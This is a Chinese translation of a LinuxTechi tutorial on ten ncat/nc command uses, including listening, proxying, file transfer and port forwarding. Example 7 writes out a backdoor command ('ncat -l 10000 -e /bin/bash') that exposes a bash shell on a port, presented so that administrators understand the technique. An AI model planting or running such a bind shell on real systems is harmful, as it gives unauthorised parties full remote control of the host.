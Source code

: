 10 个例子教你学会 ncat (nc) 命令
======

[![nc-ncat-command-examples-Linux-Systems](https://www.linuxtechi.com/wp-content/uploads/2017/12/nc-ncat-command-examples-Linux-Systems.jpg)][1] 

`ncat` 或者说 `nc` 是一款功能类似 `cat` 的工具，但是是用于网络的。它是一款拥有多种功能的 CLI 工具，可以用来在网络上读、写以及重定向数据。 它被设计成可以被脚本或其他程序调用的可靠的后端工具。同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。

`ncat`/`nc` 既是一个端口扫描工具，也是一款安全工具，还能是一款监测工具，甚至可以做为一个简单的 TCP 代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀。 这是每个系统管理员都应该知道并且掌握它。

在大多数 Debian 发行版中，`nc` 是默认可用的，它会在安装系统的过程中自动被安装。 但是在 CentOS 7 / RHEL 7 的最小化安装中，`nc` 并不会默认被安装。 你需要用下列命令手工安装。

```
[root@linuxtechi ~]# yum install nmap-ncat -y
```

系统管理员可以用它来审计系统安全，用它来找出开放的端口然后保护这些端口。 管理员还能用它作为客户端来审计 Web 服务器、telnet 服务器、邮件服务器等， 通过 `nc` 我们可以控制发送的每个字符，也可以查看对方的回应。

我们还可以用它捕获客户端发送的数据以此来了解这些客户端是做什么的。

在本文中，我们会通过 10 个例子来学习如何使用 `nc` 命令。

### 例子： 1) 监听入站连接

通过 `-l` 选项，`ncat` 可以进入监听模式，使我们可以在指定端口监听入站连接。 完整的命令是这样的：

```
$ ncat -l port_number
```

比如，

```
$ ncat -l 8080
```

服务器就会开始在 8080 端口监听入站连接。

### 例子： 2) 连接远程系统

使用下面命令可以用 `nc` 来连接远程系统，

```
$ ncat IP_address port_number
```

让我们来看个例子，

```
$ ncat 192.168.1.100 80
```

这会创建一个连接，连接到 IP 为 192.168.1.100 的服务器上的 80 端口，然后我们就可以向服务器发送指令了。 比如我们可以输入下面内容来获取完整的网页内容

```
GET / HTTP/1.1
```

或者获取页面名称，

```
GET / HTTP/1.1
```

或者我们可以通过以下方式获得操作系统指纹标识，

```
HEAD / HTTP/1.1
```

这会告诉我们使用的是什么软件来运行这个 web 服务器的。

### 例子： 3) 连接 UDP 端口

默认情况下，`nc` 创建连接时只会连接 TCP 端口。 不过我们可以使用 `-u` 选项来连接到 UDP 端口，

```
$ ncat -l -u 1234
```

现在我们的系统会开始监听 UDP 的 1234 端口，我们可以使用下面的 `netstat` 命令来验证这一点，

```
$ netstat -tunlp | grep 1234
udp           0          0 0.0.0.0:1234                 0.0.0.0:*               17341/nc
udp6          0          0 :::1234                      :::*                    17341/nc
```

假设我们想发送或者说测试某个远程主机 UDP 端口的连通性，我们可以使用下面命令，

```
$ ncat -v -u {host-ip} {udp-port}
```

比如：

```
[root@localhost ~]# ncat -v -u 192.168.105.150 53
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53。
```

### 例子： 4) 将 `nc` 作为聊天工具

`nc` 也可以作为聊天工具来用，我们可以配置服务器监听某个端口，然后从远程主机上连接到服务器的这个端口，就可以开始发送消息了。 在服务器这端运行：

```
$ ncat -l 8080
```

在远程客户端主机上运行：

```
$ ncat 192.168.1.100 8080
```

之后开始发送消息，这些消息会在服务器终端上显示出来。

### 例子： 5) 将 `nc` 作为代理

`nc` 也可以用来做代理。比如下面这个例子，

```
$ ncat -l 8080 | ncat 192.168.1.200 80
```

所有发往我们服务器 8080 端口的连接都会自动转发到 192.168.1.200 上的 80 端口。 不过由于我们使用了管道，数据只能被单向传输。 要同时能够接受返回的数据，我们需要创建一个双向管道。 使用下面命令可以做到这点:

```
$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way
```

现在你可以通过 `nc` 代理来收发数据了。

### 例子： 6) 使用 `nc` 拷贝文件

`nc` 还能用来在系统间拷贝文件，虽然这么做并不推荐，因为绝大多数系统默认都安装了 `ssh`/`scp`。 不过如果你恰好遇见个没有 `ssh`/`scp` 的系统的话， 你可以用 `nc` 来作最后的努力。

在要接受数据的机器上启动 `nc` 并让它进入监听模式：

```
$ ncat -l  8080 > file.txt
```

现在去要被拷贝数据的机器上运行下面命令：

```
$ ncat 192.168.1.100 8080 --send-only < data.txt
```

这里，`data.txt` 是要发送的文件。 `-–send-only` 选项会在文件拷贝完后立即关闭连接。 如果不加该选项， 我们需要手工按下 `ctrl+c` 来关闭连接。

我们也可以用这种方法拷贝整个磁盘分区，不过请一定要小心。

### 例子： 7) 通过 `nc` 创建后门

`nc` 命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为：

```
$ ncat -l 10000 -e /bin/bash
```

`-e` 标志将一个 bash 与端口 10000 相连。现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限：

```
$ ncat 192.168.1.100 10000
```

### 例子： 8) 通过 `nc` 进行端口转发

我们通过选项 `-c` 来用 `nc` 进行端口转发，实现端口转发的语法为：

```
$ ncat -u -l  80 -c  'ncat -u -l 8080'
```

这样，所有连接到 80 端口的连接都会转发到 8080 端口。

### 例子： 9) 设置连接超时

`nc` 的监听模式会一直运行，直到手工终止。 不过我们可以通过选项 `-w` 设置超时时间:

```
$ ncat -w 10 192.168.1.100 8080
```

这回导致连接 10 秒后终止，不过这个选项只能用于客户端而不是服务端。

### 例子： 10) 使用 `-k` 选项强制 `nc` 待命

当客户端从服务端断开连接后，过一段时间服务端也会停止监听。 但通过选项 `-k` 我们可以强制服务器保持连接并继续监听端口。 命令如下：

```
$ ncat -l -k 8080
```

现在即使来自客户端的连接断了也依然会处于待命状态。

自此我们的教程就完了，如有疑问，请在下方留言。

--------------------------------------------------------------------------------

via: https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/

作者：[Pradeep Kumar][a]
译者：[lujun9972](https://github.com/lujun9972)
校对：[wxy](https://github.com/wxy)

本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出

[a]:https://www.linuxtechi.com/author/pradeep/
[1]:https://www.linuxtechi.com/wp-content/uploads/2017/12/nc-ncat-command-examples-Linux-Systems.jpg

